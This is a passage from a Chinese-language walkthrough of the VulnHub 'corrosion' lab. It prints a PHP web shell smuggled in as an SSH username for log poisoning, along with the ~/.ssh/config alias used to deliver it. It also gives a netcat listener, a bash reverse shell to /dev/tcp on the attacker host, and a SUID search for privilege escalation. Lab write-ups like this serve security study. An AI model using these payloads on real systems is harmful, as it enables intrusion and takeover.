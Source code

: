 ```shell
ssh '<?php system($_GET['cmd']);?>'@192.168.1.30
```

所以，采用别名方法绕过，编辑`~/.ssh/config`文件，在其中编写

```shell
Hostname myserver
	Hostname 192.168.1.30
	User	'<?php system($_GET['cmd']);?>'
```

这时候再使用`ssh`连接即可

```shell
ssh myserver
```

![](D:\stu\vulnhub\corrosion靶场\pic-1\12.jpg)



测试是否成功，注意前面是通过`file`的传参，所以这里要使用`&`调用`cmd`测试

![](D:\stu\vulnhub\corrosion靶场\pic-1\13.jpg)



尝试进行一个反弹`shell`

在kali上开启监听

```shell
nc -lvvp 9999
echo "bash -i >& /dev/tcp/192.168.1.16/9999 0>&1" | bash
然后把上面的echo一串进行URL编码处理
```

![](D:\stu\vulnhub\corrosion靶场\pic-1\14.jpg)



## 提权

使用`find`查看有无可用的SUID权限

```shell
find / -perm -u=s -type f 2>/dev/null
```

![](D:\stu\vulnhub\corrosion靶场\pic-1\15.jpg)



发现有`sudo`，进行尝试，发现都不行

![](D:\stu\vulnhub\corrosion靶场\pic-1\16.jpg)



使用`find`寻找一些关键字吧，如`user`、`pass`、`back`等，因为数据太多，最终在`back*`搜索中，找到一个可疑目录
